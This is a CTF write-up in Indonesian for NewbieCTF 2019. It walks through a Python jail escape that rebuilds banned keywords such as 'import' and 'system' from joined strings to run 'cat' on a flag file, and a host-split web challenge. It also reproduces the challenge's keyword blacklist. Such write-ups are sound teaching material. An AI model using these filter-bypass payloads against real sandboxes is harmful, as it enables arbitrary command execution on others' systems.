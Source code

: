 ```yaml
---
slug: writeup-newbiectf-2019
title: Writeup NewbieCTF 2019
date: 2019-11-03
author: Bardizba
keywords: [WRITE-UP NewbieCTF 2019]
description: WRITE-UP NewbieCTF 2019
excerpt: WRITE-UP NewbieCTF 2019
tags : ["ctf"]
---
```

![ctf](./gambar.png)
NewbieCTF 2019
A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)

newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.

# Pwnable
## Python Jail

    Hi! Welcome to pyjail!
    Escape Jail If you can!

    Author: SPark
    nc prob.vulnerable.kr 20001

saat dibuka nc-nya, terdapat sebuah python sandbox dengan kdoe seperti berikut yang akan mengeksekusi input pada perintah __exec(text)__ 

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")
    print(open(__file__).read())
    print("========================================================================")
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return;
    else:
        exec(text)
if __name__ == "__main__":
    main()
```


biasanya sandbox seperti ini bisa kita akali dengan memanfaatkan *predifined variable/function* yang ada. di python kita bisa memanfaatkan variable __\_\_builtins\_\___.


karena code yang diberikan tidak memperbolehkan payload berisi keyword berikut : ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']. maka kita akali dengan fungsi join string yang ada di python.kita coba masukan payload berikut untuk mendapatkan list direktorinya: 
    
```python
print(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])).listdir('/home/python_jail'))
```
hasilnya : 

```python
['.bashrc', '.profile', '.bash_logout', 'flag', 'python_jail.py']
```

ternyata terdapat file *flag*. kita coba buka file flag tersebut dengan methos *os.system* pada python. lagi - lagi karena keyword system di banned pada code, maka kita bisa menggunakan fungsi getattr supaya bisa memanggil method system* menggunakan string.
kita menggunakan payload berikut :
    
```python
print(getattr(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])),"".join(['sys','tem']))('cat /home/python_jail/flag'))
```

dan dipatkan flag :

```bash
KorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```

---
# Web Hacking
## Normal_Host
```
Normal_Host

This is Just a Normal Host! Can you hack?
Author: Y311J(신재욱)
LINK:

```
[LINK](https://internal.iwinv.net/)

Awalnya pada kategori web hacking memiliki 2 Chals, dan 2 chals tersebut berada pada satu server. saat saya coba mencari flag chals pertama(chals tersebut bertipe RCE PHP) ternyata malah ketemu flag untuk chals yang ini wkwk.

untuk mendapatkan flag pada chals ini masukan payload :
```
normalflag.iwinv.net:80
```

Flag : 
```
KorNewbie{H0$7_$P1it_A774cK_U$3s_N0RM^liZ47ioN&##$%%!}
```